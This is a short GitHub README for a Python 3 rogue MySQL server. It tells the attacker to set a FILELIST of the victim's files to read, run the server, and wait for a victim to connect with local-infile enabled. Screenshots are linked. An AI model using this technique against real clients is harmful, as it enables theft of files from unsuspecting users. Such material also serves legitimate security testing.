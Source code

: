 Rogue-MySql-Server for Python3.x
==================

Rogue MySql Server for Python3.x

## Step
- Modify `FILELIST` of rogue_mysql_server.py to read the victim's file, modify `PORT` to modify the listening port
- attacker exec `python rogue_mysql_server.py`
- victim exec like `mysql.exe -h 127.0.0.1 -u root -p123 --enable-local-infile --ssl-mode=DISABLED`

## Screenshots
-----
- victim origin file
![image](https://github.com/r3x5ur/Rogue-MySql-Server-py3/assets/64947085/d121eaa1-8ee7-4e86-9e41-780b17d94100)

-----
- victim
![image](https://github.com/r3x5ur/Rogue-MySql-Server-py3/assets/64947085/44c5c062-d5e0-4158-afb0-120412e02e6c)

-----
- attacker 
![image](https://github.com/r3x5ur/Rogue-MySql-Server-py3/assets/64947085/9195e120-b3dd-4217-a496-cda60c1c0956)


